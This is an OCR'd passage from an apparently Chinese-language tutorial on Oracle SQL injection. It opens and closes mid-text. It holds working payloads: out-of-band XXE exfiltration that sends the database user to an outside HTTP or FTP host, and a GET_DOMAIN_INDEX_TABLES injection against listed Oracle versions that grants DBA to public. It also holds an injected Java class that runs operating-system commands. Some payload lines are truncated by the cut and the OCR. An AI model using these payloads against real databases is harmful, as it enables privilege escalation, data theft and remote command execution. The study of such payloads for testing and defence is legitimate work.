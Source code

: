 **SYSTEM "http://192.168.124.1/'||(SELECT user from** 

**dual)||'"> %remote;\]>'),'/l') from dual);** 

**2、ftp**

**select extractvalue(xmltype('<?xml version="1.0"** 

**encoding="UTF-8"?><!DOCTYPE root \[ <!ENTITY % remote SYSTEM** 

**"ftp://'||user||':bar@IP/test"> %remote; %param1;\]>'),'/l') from dual;**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**4、提权**

**GET\_DOMAIN\_INDEX\_TABLES函数注入  
**

**影响版本:**

**Oracle 8.1.7.4,** 

**Oracle9.2.0.1 – 9.2.0.7,** 

**Oracle10.1.0.2 – 10.1.0.4,** 

**Oracle10.2.0.1-10.2.0.2**

**漏洞的成因是该函数的参数存在注入，而该函数的所有者是sys，所以通过注入就可以执行任意sql，该函数的执行权限为public，所以只要遇到一个oracle的注入点并且存在这个漏洞的，基本上都可以提升到最高权限。**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**1、权限提升**

**http://localhost:8080/oracleInject/index?username=admin' and** **(SYS.DBMS\_EXPORT\_EXTENSION.GET\_DOMAIN\_INDEX\_TABLES('FOO','BAR','DBMS \_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS\_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0)) is not null--  
**

**SQL**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**2、创建Java代码执行命令**

**http://localhost:8080/oracleInject/index?user as import java.io.\*;public class Command{public static String exec(String cmd) throws Exception{String sb="";BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());BufferedReader inBr = new BufferedReader(new InputStreamReader(in));String lineStr;while ((lineStr = inBr.readLine()) != null)sb+=lineStr+"n";inBr.close();in.close();return sb;}}'''';END;'';END;--','SYS',0,'1',0) from dual) is not null --**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**3、赋予Java执行权限**
